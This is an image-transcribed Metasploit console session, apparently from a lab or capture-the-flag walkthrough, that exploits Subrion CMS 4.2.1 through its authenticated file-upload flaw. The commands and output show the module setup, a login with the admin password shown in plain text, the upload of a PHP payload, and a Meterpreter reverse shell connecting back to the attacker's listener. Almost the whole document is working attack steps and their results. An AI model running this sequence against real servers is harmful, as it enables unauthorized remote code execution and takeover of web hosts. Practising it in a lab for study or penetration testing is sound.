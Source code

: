 ```bash
# Matching Modules
# ================

#   #  Name                                            Disclosure Date  Rank       Check  Description
#   -  ----                                            ---------------  ----       -----  -----------
#   0  exploit/multi/http/subrion_cms_file_upload_rce  2018-11-04       excellent  Yes    Intelliants Subrion CMS 4.2.1 - Authenticated File Upload Bypass to RCE


# Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/subrion_cms_file_upload_rce

msf6 > use 0
# [*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set password ******
# password => ******
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set username ******
# username => ******
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set rhosts 172.16.1.190
# rhosts => 172.16.1.190
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > run -j
# [*] Exploit running as background job 0.
# [*] Exploit completed, but no session was created.

# [*] Started reverse TCP handler on 172.16.1.89:4444 
# msf6 exploit(multi/http/subrion_cms_file_upload_rce) > [*] Running automatic check ("set AutoCheck false" to disable)
# [*] Checking target web server for a response at: http://172.16.1.190/panel/
# [+] Target is running Subrion CMS.
# [*] Checking Subrion CMS version...
# [+] Target is running Subrion CMS Version 4.2.1.
# [+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
# [*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
# [+] Successfully obtained CSRF token: Yr7kr42uQAuO8PaHQs6TdBMTFIf7TSIavUJW76z2
# [*] Logging in to Subrion Admin Panel at: http://172.16.1.190/panel/ using credentials admin:jojo1989
# [+] Successfully logged in as Administrator.
# [*] Preparing payload...
# [*] Sending POST data...
# [+] Successfully uploaded payload at: http://172.16.1.190/uploads/ladflxrocc.phar
# [*] Executing 'ladflxrocc.phar'... This file will be deleted after execution.
# [*] Sending stage (39927 bytes) to 172.16.1.190
# [*] Meterpreter session 1 opened (172.16.1.89:4444 -> 172.16.1.190:46340) at 2024-03-02 14:52:19 +0100

# msf6 exploit(multi/http/subrion_cms_file_upload_rce) > 
# [+] Successfully executed payload: http://172.16.1.190/uploads/ladflxrocc.phar
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > sessions 

# Active sessions
# ===============

#  Id  Name  Type                   Information       Connection
#  --  ----  ----                   -----------       ----------
#  1         meterpreter php/linux  www-data @ adria  172.16.1.89:4444 -> 172.16.1.190:46340 (172.16.1.190)

msf6 exploit(multi/http/subrion_cms_file_upload_rce) > sessions 1
# [*] Starting interaction with 1...

```